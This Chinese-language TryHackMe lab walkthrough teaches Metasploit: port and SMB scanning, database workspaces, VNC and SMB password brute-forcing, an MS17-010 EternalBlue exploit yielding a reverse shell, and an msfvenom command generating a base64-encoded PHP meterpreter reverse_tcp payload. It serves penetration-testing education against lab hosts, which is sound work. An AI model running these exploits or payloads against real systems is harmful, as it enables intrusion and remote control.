


# 0. Intro

在这个房间里，我们将学习如何使用 Metasploit 进行漏洞扫描和漏洞利用。我们还会介绍 **数据库功能**，说明它是如何帮助我们更轻松地管理范围更大的渗透测试工作的。最后，我们会看看如何使用 **msfvenom** 生成载荷（payload），并在大多数目标平台上拿到一个 **Meterpreter 会话**。

更具体地说，本房间将涵盖以下内容：

- 如何使用 Metasploit 扫描目标系统；
- 如何使用 Metasploit 的数据库功能；
- 如何利用 Metasploit 进行漏洞扫描；
- 如何使用 Metasploit 去利用目标系统上存在漏洞的服务；
- 如何使用 msfvenom 创建 payload，并在目标系统上获得一个 Meterpreter 会话。

请注意：对所有需要使用字典（wordlist）的题目（例如暴力破解攻击），我们都会使用 AttackBox 上的以下字典文件路径：

```
/usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
```

如果你选择使用自己的机器，请点击右侧的 **Download Task Files（下载任务文件）** 按钮，先把这个字典文件下载下来。

请先启动 AttackBox，并在终端中运行 msfconsole 命令，以便跟着本房间的内容一起操作。

# 1. Scanning

使用 Metasploit 可以进行端口扫描，它自带许多模块用于扫描目标系统或网络上的开放端口。你可以通过下面的命令列出可用的端口扫描模块：search portscan。

**搜索 portscan 模块**

```
msf6 > search portscan

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wordpress_pingback_access                   normal  No     Wordpress Pingback Locator
   1  auxiliary/scanner/natpmp/natpmp_portscan                           normal  No     NAT-PMP External Port Scanner
   2  auxiliary/scanner/portscan/ack                                     normal  No     TCP ACK Firewall Scanner
   3  auxiliary/scanner/portscan/ftpbounce                               normal  No     FTP Bounce Port Scanner
   4  auxiliary/scanner/portscan/syn                                     normal  No     TCP SYN Port Scanner
   5  auxiliary/scanner/portscan/tcp                                     normal  No     TCP Port Scanner
   6  auxiliary/scanner/portscan/xmas                                    normal  No     TCP "XMas" Port Scanner
   7  auxiliary/scanner/sap/sap_router_portscanner                       normal  No     SAPRouter Port Scanner     
```

端口扫描模块通常需要你设置几个选项：

**端口扫描模块的选项**

```
msf6 auxiliary(scanner/portscan/tcp) > show options

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   THREADS      1                yes       The number of concurrent threads (max one per host)
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds

msf6 auxiliary(scanner/portscan/tcp) >
```

这些选项含义是：

- **CONCURRENCY**：每个主机上同时要检查的端口数量。
- **PORTS**：要扫描的端口范围。注意这里的 1-10000 和 Nmap 默认扫描的“前 1000 端口”不一样：
    - Nmap 默认是扫描“最常用的 1000 个端口”；
    - 这里 1-10000 则是扫描从 1 到 10000 的“连续端口号”。
- **RHOSTS**：要扫描的目标主机或目标网段。
- **THREADS**：同时使用的线程数，线程越多，扫描速度越快。

---

你也可以直接在 msfconsole 里运行 Nmap 来扫描端口，例如：

```
msf6 > nmap -sS 10.10.12.229
[*] exec: nmap -sS 10.10.12.229

Starting Nmap 7.60 ( https://nmap.org ) at 2021-08-20 03:54 BST
Nmap scan report for ip-10-10-12-229.eu-west-1.compute.internal (10.10.12.229)
Host is up (0.0011s latency).
Not shown: 992 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
MAC Address: 02:CE:59:27:C8:E3 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 64.19 seconds
msf6 >
```

在信息收集阶段，如果你需要**非常快速且灵活的端口扫描**，Metasploit 通常不会是第一选择（Nmap 更合适）。不过，Metasploit 里的一些模块仍然可以在扫描阶段发挥作用，尤其是对特定服务的扫描。

---

## **UDP 服务识别**

scanner/discovery/udp_sweep 模块可以帮助你快速识别运行在 UDP（用户数据报协议）上的服务。

从下面可以看到，这个模块不会对所有可能的 UDP 端口做“全面扫描”，而是快速探测一些典型服务，比如 DNS 或 NetBIOS。

**UDP 扫描示例**

```
msf6 auxiliary(scanner/discovery/udp_sweep) > run

[*] Sending 13 probes to 10.10.12.229->10.10.12.229 (1 hosts)
[*] Discovered NetBIOS on 10.10.12.229:137 (JON-PC::U :WORKGROUP::G :JON-PC::U :WORKGROUP::G :WORKGROUP::U :__MSBROWSE__::G :02:ce:59:27:c8:e3)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/discovery/udp_sweep) >
```

---

## **SMB 扫描**

Metasploit 提供了若干针对特定服务的辅助模块，对于 SMB（Windows 文件共享）来说尤其有用。

在企业网络中，像 smb_enumshares（枚举共享）和 smb_version（识别 SMB 版本/系统信息）这种模块非常有价值。你也可以花一点时间熟悉你系统上 Metasploit 版本中还有哪些 SMB 扫描器。

**SMB 扫描示例**

```
msf6 auxiliary(scanner/smb/smb_version) > run

[+] 10.10.12.229:445      - Host is running Windows 7 Professional SP1 (build:7601) (name:JON-PC) (workgroup:WORKGROUP ) (signatures:optional)
[*] 10.10.12.229:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_version) >
```

在做服务扫描时，别忽略一些“看上去比较冷门”的服务，比如 **NetBIOS**。

NetBIOS（Network Basic Input Output System，网络基本输入输出系统）跟 SMB 类似，都是为了让网络中的计算机可以互相通信、共享文件或把文件发送到打印机。

NetBIOS 名称可以让你大致看出这台机器在网络中的角色和重要性（例如：CORP-DC、DEVOPS、SALES 等）。

你也有可能发现一些共享文件或文件夹：

- 可能不需要密码就能访问，
- 或者仅用非常弱的密码保护（例如 admin、administrator、root、toor 等）。

记住：Metasploit 有非常多的模块，可以帮助你更好地理解目标系统的情况，并帮助你发现潜在漏洞。面对某种目标系统时，先用 search 关键字 查一查有没有相关模块，往往非常值得。

例子：

How many ports are open on the target system?
`auxiliary/scanner/portscan/tcp`

Using the relevant scanner, what NetBIOS name can you see?
`auxiliary/scanner/netbios/nbname`

What is running on port 8000?
`auxiliary/scanner/http/http_version`

What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.
`auxiliary/scanner/smb/smb_login`

# 2. The Metasploit Database

在 TryHackMe 上只针对单一目标练习时，其实没必要一定用到数据库功能；但在**真实的渗透测试项目**中，往往会同时面对多个目标主机。

Metasploit 提供了一个数据库功能，用来简化项目管理，并且避免在设置各种参数值时搞混。

请注意：下面这些步骤在 TryHackMe 的 AttackBox 里已经事先帮你做过了，只有当你在 Kali 上或自己安装的 Metasploit 环境中操作时，才需要亲自执行。

你首先需要启动 PostgreSQL 数据库（Metasploit 会用它来存储数据），命令如下：

`systemctl start postgresql`

然后你需要用 msfdb init 命令初始化 Metasploit 数据库。但是，如果你用 root 用户去运行 msfdb init，会报错：

“Please run msfdb as a non-root user.”

这个问题可以通过用 postgres 账户来运行解决：

`sudo -u postgres msfdb init`

下面的终端输出就是一个示例。前面提到，这些操作在 AttackBox 上已经完成过了；不过如果你想自己重新做一遍，就需要先删除现有数据库：

`sudo -u postgres msfdb delete`

**启动 PostgreSQL**

```
root@attackbox:~# systemctl start postgresql
root@attackbox:~# sudo -u postgres msfdb init
Running the 'init' command for the database:
Creating database at /var/lib/postgresql/.msf4/db
Creating db socket file at /tmp
Starting database at /var/lib/postgresql/.msf4/db...waiting for server to start.... done
server started
success
Creating database users
Writing client authentication configuration file /var/lib/postgresql/.msf4/db/pg_hba.conf
Stopping database at /var/lib/postgresql/.msf4/db
Starting database at /var/lib/postgresql/.msf4/db...waiting for server to start.... done
server started
success
Creating initial database schema
Database initialization successful
root@attackbox:~#
```

现在你就可以启动 msfconsole，并使用 `db_status` 命令查看数据库状态。

**检查数据库状态**

```
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
msf6 >
```

---

数据库功能允许你创建 **workspace（工作空间）**，把不同的项目相互隔离起来。

Metasploit 启动后，一开始你会在默认的 workspace 中。你可以用 workspace 命令列出当前可用的工作空间。

**列出工作空间**

```
msf6 > workspace
* default
msf6 >
```

你可以通过 `-a` 参数添加新的 `workspace`，通过 `-d` 参数删除 `workspace`。

下面的截图显示了创建名为 `tryhackme` 的新工作空间的过程。

**添加工作空间**

```
msf6 > workspace -a tryhackme
[*] Added workspace: tryhackme
[*] Workspace: tryhackme
msf5 > workspace
default
* tryhackme
msf6 >
```

你还会注意到，新工作空间的名字会用红色显示，并在前面带一个 * 号表示当前选中。

你可以通过 workspace 命令在不同工作空间之间切换，只需要在后面加上想切换到的工作空间名称即可。

**切换工作空间**

```
msf6 > workspace
default
* tryhackme
msf5 > workspace default
[*] Workspace: default
msf5 > workspace
tryhackme
* default
msf6 >
```

可以用 workspace -h 命令查看 workspace 的帮助信息和所有可用选项。

**workspace 帮助菜单**

```
msf6 > workspace -h
Usage:
workspace                  List workspaces
workspace -v               List workspaces verbosely
workspace [name]           Switch workspace
workspace -a [name] ...    Add workspace(s)
workspace -d [name] ...    Delete workspace(s)
workspace -D               Delete all workspaces
workspace -r     Rename workspace
workspace -h               Show this help information
```

和“普通不带数据库”的 Metasploit 用法不同的是：

一旦 Metasploit 是在启用了数据库的情况下启动的，help 命令会多出一个 **数据库后端命令（Database Backend Commands）** 菜单。

**数据库后端命令**

```
Database Backend Commands
=========================

Command           Description
-------           -----------
analyze           Analyze database information about a specific address or address range
db_connect        Connect to an existing data service
db_disconnect     Disconnect from the current data service
db_export         Export a file containing the contents of the database
db_import         Import a scan result file (filetype will be auto-detected)
db_nmap           Executes nmap and records the output automatically
db_rebuild_cache  Rebuilds the database-stored module cache (deprecated)
db_remove         Remove the saved data service entry
db_save           Save the current data service connection as the default to reconnect on startup
db_status         Show the current data service status
hosts             List all hosts in the database
loot              List all loot in the database
notes             List all notes in the database
services          List all services in the database
vulns             List all vulnerabilities in the database
workspace         Switch between database workspaces
```

如果你像下面这样使用 db_nmap 运行一次 Nmap 扫描，**扫描结果会自动保存到数据库**中。

**db_nmap 命令示例**

```
msf6 > db_nmap -sV -p- 10.10.12.229
[*] Nmap: Starting Nmap 7.80 ( https://nmap.org ) at 2021-08-20 03:15 UTC
[*] Nmap: Nmap scan report for ip-10-10-12-229.eu-west-1.compute.internal (10.10.12.229)
[*] Nmap: Host is up (0.00090s latency).
[*] Nmap: Not shown: 65526 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49158/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49162/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: MAC Address: 02:CE:59:27:C8:E3 (Unknown)
[*] Nmap: Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 94.91 seconds
msf6 >
```

现在，你就可以通过 hosts 和 services 命令分别查看目标系统中与主机和服务相关的信息。

**`hosts` 与 `services` 示例**

```
msf6 > hosts

Hosts
=====

address       mac                name                                        os_name  os_flavor  os_sp  purpose  info  comments
-------       ---                ----                                        -------  ---------  -----  -------  ----  --------
10.10.12.229  02:ce:59:27:c8:e3  ip-10-10-12-229.eu-west-1.compute.internal  Unknown                    device

msf6 > services
Services
========

host          port   proto  name               state  info
----          ----   -----  ----               -----  ----
10.10.12.229  135    tcp    msrpc              open   Microsoft Windows RPC
10.10.12.229  139    tcp    netbios-ssn        open   Microsoft Windows netbios-ssn
10.10.12.229  445    tcp    microsoft-ds       open   Microsoft Windows 7 - 10 microsoft-ds workgroup: WORKGROUP
10.10.12.229  3389   tcp    ssl/ms-wbt-server  open
10.10.12.229  49152  tcp    msrpc              open   Microsoft Windows RPC
10.10.12.229  49153  tcp    msrpc              open   Microsoft Windows RPC
10.10.12.229  49154  tcp    msrpc              open   Microsoft Windows RPC
10.10.12.229  49158  tcp    msrpc              open   Microsoft Windows RPC
10.10.12.229  49162  tcp    msrpc              open   Microsoft Windows RPC

msf6 >
```

hosts -h 和 services -h 命令可以帮助你熟悉它们的更多用法和选项。

一旦主机信息被存入数据库，就可以通过 hosts -R 这个命令，把这些 IP 地址自动填入当前模块的 RHOSTS 参数中。

---

## **示例工作流**

一个常见的使用流程如下：

1. 使用 `db_nmap` 命令发现可用主机；
2. 使用某个扫描模块（比如端口扫描模块），进一步扫描这些主机上开放的端口或潜在漏洞；
3. 把扫描得到的主机记录存入数据库；
4. 使用 hosts -R 将这些主机地址自动设置为 RHOSTS；
5. 运行相应的漏洞扫描 / 利用模块。

具体示例（使用 MS17-010 漏洞扫描模块）：

- 使用模块：use auxiliary/scanner/smb/smb_ms17_010
- 用 hosts -R 为该模块设置 RHOSTS
- 再用 show options 确认参数设置无误（这里 10.10.138.32 是之前用 db_nmap 扫描得到的目标 IP）
- 最后使用 run 或 exploit 执行模块

**使用已保存的 hosts**

```
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf5 auxiliary(scanner/smb/smb_ms17_010) > hosts -R

Hosts
=====

address       mac                name                                        os_name  os_flavor  os_sp  purpose  info  comments
-------       ---                ----                                        -------  ---------  -----  -------  ----  --------
10.10.12.229  02:ce:59:27:c8:e3  ip-10-10-12-229.eu-west-1.compute.internal  Unknown                    device

RHOSTS => 10.10.12.229

msf6 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

Name         Current Setting                                                 Required  Description
----         ---------------                                                 --------  -----------
CHECK_ARCH   true                                                            no        Check for architecture on vulnerable hosts
CHECK_DOPU   true                                                            no        Check for DOUBLEPULSAR on vulnerable hosts
CHECK_PIPE   false                                                           no        Check for named pipe on vulnerable hosts
NAMED_PIPES  /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
RHOSTS       10.10.12.229                                                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
RPORT        445                                                             yes       The SMB service port (TCP)
SMBDomain    .                                                               no        The Windows domain to use for authentication
SMBPass                                                                      no        The password for the specified username
SMBUser                                                                      no        The username to authenticate as
THREADS      1                                                               yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_ms17_010) > run
```

如果数据库里保存了不止一个主机，hosts -R 会把所有这些 IP 一次性都填到 RHOSTS 里。

在典型的渗透测试工作中，你可能会这样使用 Metasploit：

- 使用 db_nmap 查找当前网络中的存活主机；
- 然后针对这些主机再次做漏洞扫描或端口扫描（使用相关扫描模块）。

使用 services 命令配合 -S 参数，还可以在数据库里搜索特定服务。

**按服务名查询数据库中的服务**

```
msf6 > services -S netbios
Services
========

host          port  proto  name         state  info
----          ----  -----  ----         -----  ----
10.10.12.229  139   tcp    netbios-ssn  open   Microsoft Windows netbios-ssn

msf6 >
```

你可能特别想寻找一些“低垂的果实”（容易下手的目标），比如：

- **HTTP**：可能跑着 Web 应用，可以进一步挖 SQL 注入、远程代码执行（RCE）等漏洞；
- **FTP**：可能允许匿名登录，暴露出一些有价值的文件；
- **SMB**：可能存在像 MS17-010 这样的 SMB 漏洞；
- **SSH**：可能使用默认口令或非常弱的密码；
- **RDP**：可能存在 BlueKeep 等漏洞，或者如果口令较弱，也能直接拿到桌面访问。

可以看到，Metasploit 的这些功能，能帮助你在渗透测试中：

- 把不同项目分隔到不同的 workspace 里；
- 在比较高的层面上分析测试结果；
- 方便地导入、存储和快速查找扫描数据。

# 3. Vulnerability Scanning

Metasploit 能帮助你快速识别一些关键漏洞，这些漏洞通常被称为“低垂的果实（low hanging fruit）”。

“低垂的果实”一般指那些**很容易被发现和利用的漏洞**，它们可能让你在系统上获得初始立足点，有时甚至能拿到如 root 或 administrator 这样的高权限。

使用 Metasploit 来发现漏洞，很大程度上依赖于你**扫描和指纹识别（fingerprinting）目标的能力**。你在这些阶段做得越好，Metasploit 能为你提供的可利用选项就越多。

例如，如果你发现目标上有一个 VNC 服务在运行，你就可以在 Metasploit 中使用 search 功能去列出相关模块。搜索结果会包含 payload 模块和 post 模块。但在这个阶段，这些结果还不是非常有用，因为我们尚未发现可用的具体 exploit。

不过，就 VNC 来说，有多个扫描器（scanner）模块可以使用。

**示例：VNC 扫描模块**

```
msf6 > use auxiliary/scanner/vnc/
use auxiliary/scanner/vnc/ard_root_pw    use auxiliary/scanner/vnc/vnc_login      use auxiliary/scanner/vnc/vnc_none_auth
msf6 > use auxiliary/scanner/vnc/
```

你可以对任意模块使用 info 命令，以便更好地理解它的用途和目的。

**VNC 登录扫描模块**

```
msf6 auxiliary(scanner/vnc/vnc_login) > info

       Name: VNC Authentication Scanner
     Module: auxiliary/scanner/vnc/vnc_login
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  carstein
  jduck

Check supported:
  No

Basic options:
  Name              Current Setting                                                  Required  Description
  ----              ---------------                                                  --------  -----------
  BLANK_PASSWORDS   false                                                            no        Try blank passwords for all users
  BRUTEFORCE_SPEED  5                                                                yes       How fast to bruteforce, from 0 to 5
  DB_ALL_CREDS      false                                                            no        Try each user/password couple stored in the current database
  DB_ALL_PASS       false                                                            no        Add all passwords in the current database to the list
  DB_ALL_USERS      false                                                            no        Add all users in the current database to the list
  PASSWORD                                                                           no        The password to test
  PASS_FILE         /opt/metasploit-framework-5101/data/wordlists/vnc_passwords.txt  no        File containing passwords, one per line
  Proxies                                                                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                                                                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
  RPORT             5900                                                             yes       The target port (TCP)
  STOP_ON_SUCCESS   false                                                            yes       Stop guessing when a credential works for a host
  THREADS           1                                                                yes       The number of concurrent threads (max one per host)
  USERNAME                                                                          no        A specific username to authenticate as
  USERPASS_FILE                                                                      no        File containing users and passwords separated by space, one pair per line
  USER_AS_PASS      false                                                            no        Try the username as the password for all users
  USER_FILE                                                                          no        File containing usernames, one per line
  VERBOSE           true                                                             yes       Whether to print output for all attempts

Description:
  This module will test a VNC server on a range of machines and report
  successful logins. Currently it supports RFB protocol version 3.3,
  3.7, 3.8 and 4.001 using the VNC challenge response authentication
  method.

References:
  https://cvedetails.com/cve/CVE-1999-0506/

msf6 auxiliary(scanner/vnc/vnc_login) >
```

如你所见，vnc_login 模块可以帮助我们**发现 VNC 服务的登录凭据**。

# 4. Exploitation

顾名思义，Metasploit 是一个漏洞利用（exploitation）框架。Exploit（漏洞利用）是模块类别中数量最多的一类。

Metasploit

版本信息

`=[ metasploit v5.0.101-dev]`

`+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post]`

`+ -- --=[ 562 payloads - 45 encoders - 10 nops]`

`+ -- --=[ 7 evasion]`

你可以使用 `search` 命令来搜索 exploit，使用 `info` 命令查看某个 exploit 的更多信息，并使用 `exploit` 命令来启动该 exploit。虽然流程本身很简单，但要记住，能否成功取决于你是否对目标系统上运行的服务有充分、深入的理解。

大多数 exploit 都会预先设置一个默认 payload（有效载荷）。不过，你始终可以使用 `show payloads` 命令来列出该 exploit 还能搭配使用的其他 payload。

可用的 payload

`msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads`

兼容的 Payload

（以下为示例列表）

一旦你决定使用哪个 payload，就可以用 `set payload` 命令来选择它。

Payload 选项

`msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2`

`payload => generic/shell_reverse_tcp`

`msf6 exploit(windows/smb/ms17_010_eternalblue) > show options`

模块选项（exploit/windows/smb/ms17_010_eternalblue）：

- `RHOSTS`：目标主机（可以是单个、CIDR 范围，或 hosts 文件 `file:` 语法）
- `RPORT`：目标端口（TCP）
- `SMBDomain`：可选，用于认证的 Windows 域
- `SMBPass`：可选，指定用户名的密码
- `SMBUser`：可选，用于认证的用户名
- `VERIFY_ARCH`：检查远程架构是否与 exploit 目标匹配
- `VERIFY_TARGET`：检查远程操作系统是否与 exploit 目标匹配

Payload 选项（generic/shell_reverse_tcp）：

- `LHOST`：监听地址（可以指定网卡接口）
- `LPORT`：监听端口

Exploit 目标（Target）：

- `0`：Windows 7 和 Server 2008 R2（x64）所有补丁包

注意：由于环境或操作系统限制（例如防火墙规则、杀毒软件、无法写文件、或者目标上没有可执行该 payload 的程序——例如 `payload/python/shell_reverse_tcp`），选择一个能正常工作的 payload 有时会变成一个“不断尝试/排错”的过程。

有些 payload 会引入新的参数，你可能需要设置；这时再运行一次 `show options` 就能看到。比如上面的例子，反向连接（reverse）类型的 payload 至少需要你设置 `LHOST`。

设置 LHOST 并运行 exploit

`msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.186.44`

`lhost => 10.10.186.44`

`msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit`

（随后输出显示：启动反向 TCP 监听、对目标进行 MS17-010 检查、连接目标、发送利用数据包、最终打开命令行会话）

`[*] Command shell session 1 opened ...`

`C:\Windows\system32>`

当一个 session（会话）打开后，你可以用 `CTRL+Z` 把它放到后台（background），或用 `CTRL+C` 中止它。把会话放到后台在你需要同时处理多个目标，或对同一个目标用不同的 exploit / shell 时会很有用。

将会话放到后台

`C:\Windows\system32>^Z`

`Background session 1? [y/N] y`

然后回到 msf，使用 `sessions` 查看会话列表。

`msf6 exploit(...) > sessions`

活动会话（Active sessions）会显示会话 ID、类型（shell / meterpreter 等）、目标信息和连接信息。

使用 sessions 管理会话

`sessions` 命令会列出所有活动会话，并支持多种选项来帮助你更好地管理会话。

`sessions` 帮助菜单

`msf6 exploit(...) > sessions -h`

用法：`sessions [options]` 或 `sessions [id]`

用于操作与交互活动会话。

常见选项包括（原文含义）：

- `i`：与指定 ID 的会话交互
- `k`：按 ID/范围终止会话
- `l`：列出所有活动会话
- `u`：在许多平台上将 shell 升级为 meterpreter 会话
    
    ……（其余略）
    

许多选项支持用逗号和短横线表示范围，例如：

`sessions -s checkvm -i 1,3-5` 或 `sessions -k 1-2,5,6`

你可以使用 `sessions -i` 加上会话 ID 来与任何已有会话进行交互。

与会话交互

`msf6 exploit(...) > sessions -i 1`

`[*] Starting interaction with 1...`

`C:\Windows\system32>`

部署目标机器并回答下面的问题：

# 5. Msfvenom

Msfvenom（取代了 Msfpayload 和 Msfencode）可以用来生成 payload（有效载荷）。

Msfvenom 允许你访问 Metasploit 框架中所有可用的 payload。Msfvenom 可以把 payload 生成为多种不同的格式（例如 PHP、exe、dll、elf 等），并面向多种不同的目标系统（例如 Apple、Windows、Android、Linux 等）。

Msfvenom 的 payload 列表

```bash
root@ip-10-10-186-44:~# msfvenom -l payloads
```

### 框架 Payload（总计 562 个）[--payload ]

名称 / 描述（节选示例）

- `aix/ppc/shell_bind_tcp`：监听一个连接并生成一个命令 shell
- `aix/ppc/shell_find_port`：在已建立的连接上生成一个 shell
- `aix/ppc/shell_interact`：简单执行 `execve /bin/sh`（用于 inetd 程序）
- `aix/ppc/shell_reverse_tcp`：回连到攻击者并生成一个命令 shell
- `android/meterpreter/reverse_http`：在 Android 上运行 meterpreter 服务端，通过 HTTP 隧道通信
- `android/meterpreter/reverse_https`：在 Android 上运行 meterpreter 服务端，通过 HTTPS 隧道通信
- `android/meterpreter/reverse_tcp`：在 Android 上运行 meterpreter 服务端，回连分段加载（stager）
- `android/meterpreter_reverse_http`：回连到攻击者并生成 Meterpreter shell
- `android/meterpreter_reverse_https`：回连到攻击者并生成 Meterpreter shell
- `android/meterpreter_reverse_tcp`：回连到攻击者并生成 Meterpreter shell
- `android/shell/reverse_http`：生成一个管道式命令 shell（sh），通过 HTTP 隧道通信
- `android/shell/reverse_https`：生成一个管道式命令 shell（sh），通过 HTTPS 隧道通信
- `android/shell/reverse_tcp`：生成一个管道式命令 shell（sh），回连分段加载（stager）
- `apple_ios/aarch64/meterpreter_reverse_http`：运行 Meterpreter/Mettle 服务端 payload（无分段 stageless）
- `apple_ios/aarch64/meterpreter_reverse_https`：运行 Meterpreter/Mettle 服务端 payload（无分段 stageless）
- `apple_ios/aarch64/meterpreter_reverse_tcp`：运行 Meterpreter/Mettle 服务端 payload（无分段 stageless）
- `apple_ios/aarch64/shell_reverse_tcp`：回连到攻击者并生成一个命令 shell
- `apple_ios/armle/meterpreter_reverse_http`：运行 Meterpreter/Mettle 服务端 payload（无分段 stageless）
- `apple_ios/armle/meterpreter_reverse_https`：运行 Meterpreter/Mettle 服务端 payload（无分段 stageless）
- `apple_ios/armle/meterpreter_reverse_tcp`：运行 Meterpreter/Mettle 服务端 payload（无分段 stageless）

### 输出格式（Output formats）

你既可以生成**独立的（stand-alone）payload**（例如一个 Windows 的 Meterpreter 可执行文件），也可以生成**可用的原始格式（raw）**（例如 python 形式的输出）。可以使用 `msfvenom --list formats` 命令来列出支持的输出格式。

### 编码器（Encoders）

与某些人的认知相反，编码器并不以“绕过目标系统上安装的杀毒软件”为主要目的。顾名思义，编码器就是**对 payload 进行编码**。虽然它可能对某些杀毒软件有效，但想真正解决问题，使用现代的混淆技术或学习如何注入 shellcode 往往是更好的方案。

下面的例子展示了编码的用法（使用 `-e` 参数）。例子中将 PHP 版本的 Meterpreter 用 Base64 编码，并且输出格式为 raw。

生成一个 PHP payload

```bash
root@ip-10-10-186-44:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 1507 (iteration=0)
php/base64 chosen with final size 1507
Payload size: 1507 bytes
eval(base64_decode(...省略...));
root@ip-10-10-186-44:~#

```

### 处理器（Handlers）

